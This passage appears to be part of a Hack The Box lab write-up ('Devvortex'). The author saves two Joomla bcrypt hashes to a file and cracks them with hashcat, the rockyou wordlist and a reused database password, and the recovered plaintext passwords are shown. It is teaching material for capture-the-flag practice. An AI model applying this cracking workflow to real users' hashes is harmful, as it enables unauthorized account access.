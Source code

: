 I’ll save those to a file:

```
oxdf@hacky$ cat joomla.hashes
lewis:$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12

```

### Crack Hashes

I’ll pass this file to `hashcat` along with the `rockyou.txt` wordlist. It starts in auto-detect mode, but fails as there are multiple possible matches:

```
oxdf@corum:~/hackthebox/devvortex-10.10.11.242$ hashcat joomla.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
hashcat (v6.2.6) starting in autodetect mode
...[snip]...

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].
...[snip]...

```

Unless I know otherwise, it’s always worth trying basic bcrypt (3200). I can also start in the background registering an account and then fetching the password to try to crack it with different modes to see which it is. But I won’t need that here as 3200 works rather quickly for logan’s hash:

```
oxdf@corum:~/hackthebox/devvortex-10.10.11.242$ hashcat joomla.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user -m 3200
hashcat (v6.2.6) starting
...[snip]...
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho

```

I’ll kill this and try the DB password for lewis, and it works:

```
oxdf@corum:~/hackthebox/devvortex-10.10.11.242$ hashcat joomla.hashes sqlpass --user -m 3200
hashcat (v6.2.6) starting
...[snip]...
$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u:P4ntherg0t1n5r3c0n##
...[snip]...

```
